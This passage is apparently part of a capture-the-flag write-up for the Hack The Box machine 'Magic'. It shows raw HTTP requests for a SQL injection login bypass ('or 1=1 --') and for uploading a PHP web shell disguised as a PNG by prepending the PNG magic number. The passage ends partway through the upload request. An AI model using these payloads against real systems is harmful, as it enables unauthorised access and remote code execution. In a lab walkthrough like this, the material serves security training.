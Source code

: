 ![login form](/media/2020.xx/magic_02.png)

Some mechanism forbid us to put space in our username and password. We fire up
Burp and edit the request using the `Intercept` function so that our post
request look like the following

    :::text
    POST /login.php HTTP/1.1
    Host: 10.10.10.185
    Connection: close
    Cookie: PHPSESSID=aakul5ai43vudv9rqhpfoedqcs

    username=aa' or 1=1 -- &password=a

We are then logged in and we can upload picture using the application.

![upload form](/media/2020.xx/magic_03.png)

Obviously we want to upload some PHP file for instance
`/usr/share/webshells/php/simple-backdoor.php`. We intercept the request with
Burp and change the Content-Type to `image/png` and the image name to
`simple-backdoor.php.png`.

Our request is blocked and the application send us the following message
`<script>alert('What are you trying to do there?')</script><!DOCTYPE HTML>`

That where the name of the box is relevant. We need to add the
PNG [magic number](https://en.wikipedia.org/wiki/List_of_file_signatures) to
our file.

Still using Burp we add `aaaaaaaa` at the begging of our file.

![Burp request with aaaaaaaa](/media/2020.xx/magic_04.png)

Using the Raw editor in Burp we replace our `a` (`61`) by the PNG's magic number
`89 50 4E 47 0D 0A 1A 0A`.

![Burp request with PNG's magic number](/media/2020.xx/magic_05.png)

Our request now looks like the following (copy-pasting it will failed as the
magic number will not correctly be copied):

    :::text
    POST /upload.php HTTP/1.1
    Host: 10.10.10.185
    Content-Type: multipart/form-data; boundary=---------------------------1971341748341881315972996739
    Content-Length: 692
    Connection: close
    Cookie: PHPSESSID=gl7e03c4vb6ejee40tgeobjhfh

    -----------------------------1971341748341881315972996739
    Content-Disposition: form-data; name="image"; filename="simple-backdoor2.php.png"
    Content-Type: image/png

    PNG
    
